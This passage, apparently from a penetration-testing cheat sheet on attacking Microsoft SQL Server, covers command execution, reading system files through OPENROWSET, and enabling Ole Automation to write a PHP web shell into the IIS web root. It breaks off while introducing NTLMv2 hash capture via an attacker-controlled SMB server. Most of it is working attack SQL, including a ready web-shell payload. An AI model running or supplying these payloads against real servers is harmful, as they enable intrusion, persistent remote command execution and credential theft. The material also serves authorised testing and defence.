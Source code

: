 Example output:

```
output
-----------------------------
no service\mssql$sqlexpress
NULL
```

#### Other Command Execution Methods

* **Extended stored procedures**: Adding custom procedures
* **CLR Assemblies**: Using .NET code within SQL Server
* **SQL Server Agent Jobs**: Scheduled tasks that can execute commands
* **External scripts**: Running scripts in external languages (R, Python)

### File System Access

#### Reading Files

```sql
-- Using OPENROWSET with BULK option
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```

#### Writing Files

```sql
-- Enable Ole Automation Procedures (requires admin)
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXEC sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO

-- Create a file
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["cmd"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```

### Capturing MSSQL Service Account Hash

MSSQL servers can be tricked into authenticating to an attacker-controlled SMB server, revealing the service account's NTLMv2 hash:
